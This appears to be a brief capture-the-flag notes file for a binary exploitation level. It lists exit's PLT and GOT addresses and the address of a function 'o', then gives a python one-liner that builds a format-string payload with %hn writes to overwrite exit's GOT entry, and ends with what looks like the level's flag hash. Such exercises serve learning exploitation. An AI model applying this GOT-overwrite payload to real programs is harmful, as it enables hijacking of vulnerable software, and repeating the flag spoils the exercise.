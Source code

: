 adress of exit : 0x80483d0 => 0x0804 0x83d0 => d0830408

WARNING PLT vs GOT 
adress exit : 0x08049838 => 0x0804 0x9838
adress of function o : 	0x080484a4 => 0x0804 0x84a4
			0x080c84ac
			0x07fc84a4
high exit = 2052
low exit = 33744
high o = 2052
low o = 33956


python -c 'import struct; print struct.pack("<I", 0x08049838) 
	+ struct.pack("<I", 0x0804983a)
	+ "%33948c%4$hn" + "%33632c%5$hn"'
	> /tmp/lvl5


d3b7bf1025225bd715fa8ccb54ef06ca70b9125ac855aeab4878217177f41a31
